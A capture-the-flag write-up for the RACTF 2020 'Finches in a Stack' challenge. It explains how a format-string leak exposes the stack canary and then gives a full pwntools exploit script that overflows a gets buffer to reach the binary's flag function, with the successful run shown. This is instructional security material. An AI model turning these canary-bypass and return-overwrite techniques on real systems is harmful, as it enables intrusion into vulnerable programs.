 # Really Awesome CTF 2020

## Finches in a Stack

> 350
>
> Challenge instance ready at `88.198.219.20:31752`
>
> There's a service at ..., exploit it to get the flag.
>
> Author: Ironstone
>
> [`fias`](fias)

Tags: _pwn_ _x86_ _rop_ _bof_ _stack-canary_ _format-string_

## Summary

Format-string exploit leaks canary permitting `gets` to _get_ through, redirection execution to `flag`.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Some mitigations in place.  No PIE will make easy work of this.


### Decompile with Ghidra

![](say_hi.png)

There are `gets` vulnerabilities at lines 20 and 34, but a stack canary will detect smashing the stack.  However, line 32 has a format-string vulnerability we can use to leak the value of the canary.

![](say_hi_stack.png)

The canary is `0x10` from the return address, using GDB it should be easy to find the position in the stack; just set a breakpoint at `printf`, run, and checkout the stack:

```
0xffffd650│+0x0000: 0xffffd668  →  "blah!\n"   ← $esp
0xffffd654│+0x0004: 0xf7fe7b24  →   pop edx
0xffffd658│+0x0008: 0x00000000
0xffffd65c│+0x000c: 0x08049246  →  <say_hi+13> add ebx, 0x2dba
0xffffd660│+0x0010: 0xf7fab000  →  0x001e9d6c
0xffffd664│+0x0014: 0xf7fab000  →  0x001e9d6c
0xffffd668│+0x0018: "blah!\n"
0xffffd66c│+0x001c: 0x08000a21 ("!\n"?)
0xffffd670│+0x0020: 0x0804a048  →  "I don't want you attacking anyone!\n"
0xffffd674│+0x0024: 0xf7ffd990  →  0x00000000
0xffffd678│+0x0028: 0x0804c000  →  0x0804bf0c  →  0x00000001
0xffffd67c│+0x002c: 0xd7e35400
0xffffd680│+0x0030: 0x0804c000  →  0x0804bf0c  →  0x00000001
0xffffd684│+0x0034: 0xf7fab000  →  0x001e9d6c
0xffffd688│+0x0038: 0xffffd6a8  →  0x00000000  ← $ebp
0xffffd68c│+0x003c: 0x0804936c  →  <main+113> mov eax, 0x0
```

`main+113` is the return address, `0x10` (16) bytes above that is `0xd7e35400`.  That is the canary.  Start counting from below `$esp`.  The canary is the 11th parameter.  By passing `%11$p` to the first `gets` the `printf` will emit the canary.  With than in hand we can overwrite the return address with the address of `flag`:

```
void flag(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0xe2a));
  return;
}
```

`flag` calls `system` with an parameter of `iVar1 + 0xe2a`.  To figure out what that actually is, take the address after `iVar1 = __x86.get_pc_thunk.ax();` and add `0xe2a` to it:

```
        080491d9 e8 9d 01 00 00        CALL       __x86.get_pc_thunk.ax
        080491de 05 22 2e 00 00        ADD        EAX,0x2e22
```

`0x80491de` + `0xe2a` = `0x004a008`.  Then look at that address in the disassembly:

```
        0804a008 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
```

So, `system("/bin/cat flag.txt")`.

> Before moving on, take a look at parameter three in the stack.  We'll need that for `fiap`.

## Exploit

```
#!/usr/bin/python3

from pwn import *
import sys

#p = process('./fias')
p = remote('88.198.219.20',64617)

binary = ELF('./fias')

p.recvuntil('Hi! What\'s your name? ')
p.sendline('%11$p')
p.recvuntil('Nice to meet you, ')
canary = int(p.recvline().strip()[:10],16)
print(hex(canary))

p.recvuntil('Do YOU want to pet my canary?')

payload  = (0x29 - 16) * b'A'
payload += p32(canary)
payload += 3 * p32(0x0) # ebx, edi, ebp
payload += p32(binary.symbols['flag'])

p.sendline(payload)
p.recvline()
_ = p.recv(100).decode().strip()
print(_)
```

If you look at the stack diagram above, the second `gets` buffer `local_29` is `0x29` bytes from the return address.  Without a canary, we'd just write `0x29` bytes and start ROP'n.  However with a canary located 16 (`0x10`) bytes from the return address, we'll have to send 16 bytes less than `0x29`, followed by the canary, and then 12 more bytes before overwriting the return address with the address of `flag`.

Output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 64617: Done
[*] '/pwd/datajerk/ractf2020/fias/fias'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xbb3c2000
ractf{St4ck_C4n4ry_FuN!}
```

